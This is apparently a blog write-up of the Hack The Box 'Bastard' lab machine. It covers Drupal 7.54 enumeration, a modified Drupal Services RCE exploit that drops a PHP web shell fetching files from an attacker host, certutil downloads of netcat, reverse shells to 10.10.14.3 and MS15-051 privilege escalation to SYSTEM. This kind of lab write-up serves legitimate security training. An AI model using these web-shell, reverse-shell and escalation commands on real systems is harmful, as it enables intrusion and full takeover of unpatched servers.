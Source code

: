 ```yaml
---
layout: post
title: HTB Bastard Writeup  
subtitle: Medium Box
thumbnail-img: /assets/img/bastard.png
tags: [HTB]
---
```

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/bastard.png)

| Name | Bastard |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 18 Mar 2017 |
| DIFFICULTY | Medium |

# Port Scan

```bash
# Nmap 7.92 scan initiated Fri Apr 29 19:20:38 2022 as: nmap -p- -oN scriptScan.nmap -v -sVC 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.078s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# HTTP 80

Going to the webpage it looks like it is a drupal site

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/611ccedf9d7c4c019877c578c5fb5e04.png)

From the nmap output, there was a `/robots.txt` page. Taking a look at that file there was a disallow entry for `/CHANGELOG.txt` this probably has version information about the drupal site. 

The changelog indeed does show the version to be "Drupal 7.54, 2017-02-01"

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/eb19e84b6a0e455ba3e55495b50b26c7.png)

Googling "Drupal 7.54" exploit brings me to [this](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/) site explaining that there is an RCE 

It tells us to copy over the exploit using `searchsploit -m php/webapps/41564.php` and make a few changes to the first part of the exploit

```php
error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.14.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php echo"Zonifer Rocks"; ?>'
];
```

Before we run the exploit we need to install `php-curl` by running `sudo apt-get install php-curl`. Once that is installed we can run the exploit `php 41564.php`, and now by going to `http://10.10.10.9/test.php` we can see that the exploit works!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/73ecd3e92c7044c79af9d18e7098315b.png)

We can take this a step further and run commands on the server by making a few changes to our exploit 

```php
$url = 'http://10.10.10.9/';               
$endpoint_path = '/rest';                  
$endpoint = 'rest_endpoint';               

$phpCode = <<<'EOD'                        

<?php                                      


 if (isset($_REQUEST['fupload'])) {                                                   
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.12:8888/" . $_REQUEST['fupload']));                                                            
};                                         


 if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};

?>

EOD;

$file = [
    'filename' => 'cmd.php',
    'data' => $phpCode
];

```

Now going to `http://10.10.10.9/cmd.php?fexec=dir` gives us code execution!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/96a459ec663b47aab42139ef2bb20880.png)

We can now use a netcat windows executable and get a reverse shell. First, we can locate the binary using `locate`, any one of these should work. I used [this one](https://eternallybored.org/misc/netcat/)

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ locate nc.exe
/home/kali/tools/netcat-1.11/nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

We will copy it to our working directory `cp /home/kali/tools/netcat-1.11/nc.exe`, and start a python web server to host it `python3 -m http.server 80`. Next, we will use `certutil.exe` and our simple web shell to download the file from kali onto the host. `http://10.10.10.9/cmd.php?fexec=certutil.exe%20-urlcache%20-f%20http://10.10.14.3/nc.exe%20nc.exe`. We can see that it downloaded by looking at our python webserver

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [29/Apr/2022 23:29:21] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.9 - - [29/Apr/2022 23:29:22] "GET /nc.exe HTTP/1.1" 200 -
```

Next, start up a listener for the shell `nc -lvnp 9001` and execute this in the browser to get a connect back `http://10.10.10.9/cmd.php?fexec=nc.exe%2010.10.14.3%209001%20-e%20cmd.exe`. If we look back at our listener we can see that we now have a shell as `iusr`

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.9] 64544
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

# Root

Let's see what kind of windows machine this is by running `systeminfo`. From the snip below it is a windows server 2008 R2 server on a 64-bit architecture.

```
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          1/5/2022, 1:30:52 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
```

There is a good GitHub repo called [SecWiki](https://github.com/SecWiki/windows-kernel-exploits) that has a directory for windows kernel exploits. Looking through the page [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) looks like it might work on this machine. I will download the zip file and extract `ms15-051x64.exe` to my working directory. 

Next, we need to copy it over to the machine `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit.exe` (while still having our python web server running). 

And now we can test and see if it works

```
C:\inetpub\drupal-7.54>exploit.exe
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2492 created.
==============================
nt authority\system
```

We can now execute code as nt authority\system! We can use netcat again to get a reverse shell, but this time as system. Make sure to set up a netcat listener to catch the shell `nc -lvnp 9002` and now we can execute `exploit.exe "nc.exe 10.10.14.3 9002 -e cmd.exe"`

Once it is finished we have a shell as system!
```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
